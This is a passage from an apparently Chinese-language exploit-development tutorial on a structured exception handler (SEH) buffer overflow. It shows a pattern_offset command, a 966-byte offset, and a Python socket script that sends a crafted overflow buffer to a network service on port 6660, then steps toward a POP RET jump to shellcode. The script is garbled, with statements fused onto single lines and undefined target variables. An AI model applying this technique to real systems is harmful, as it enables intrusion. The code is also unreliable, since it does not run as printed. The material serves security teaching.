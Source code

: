 ![](img/627727a0-1665-449e-b580-bf31f157d06f.png)

```
 ruby /path/to/script/pattern_offset.rb -q 423267412
```

以下截图显示了前面命令的输出：

![](img/09a3a41d-f031-4c46-b222-106ce855f3e9.png)

1.  我们会看到偏移量为`966`字节，处理程序被覆盖的位置。

1.  现在让我们稍微修改我们的利用程序，看看会发生什么。我们有`966`字节；我们将使用`962`字节的 A 和 4 字节的断点，再用 4 个 B，剩下的字节用 C 来看看会发生什么：

```
        #!/usr/bin/python
        import socket address="192.168.110.12"
        port=6660 buffer = "USV "
        buffer+= "A" * 962
        buffer+= "\xcc\xcc\xcc\xcc"
        buffer+= "BBBB"
        buffer+= "C" * (2504 - len(buffer))
        buffer+= "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port)) 
        sock.send(buffer)
        sock.close()
```

1.  我们运行这个并查看 SEH 链。在这里，我们会注意到一个有趣的事情：我们添加的前 4 个断点实际上已经覆盖了一个内存地址，接下来的 4 个已经被覆盖到我们的 SEH 处理程序中：

![](img/9923fd87-3710-4aa9-ac11-2a4873962b40.png)

这是因为 SEH 是一个指针，指向发生异常时代码存储的内存地址。

1.  让我们将异常传递给程序，我们会看到 EIP 已经被覆盖，但当我们查看内存时，我们会看到我们的 Cs 在内存中的 Bs 之后大约写入了 6 个字节。我们可以使用`POP RET`后跟一个短的`JUMP`代码来跳转到我们的 shellcode。

1.  我们在调试器的控制台中输入`!safeseh`命令：

![](img/e5fe1f24-019f-47fb-b5ac-841de81bcc5e.png)
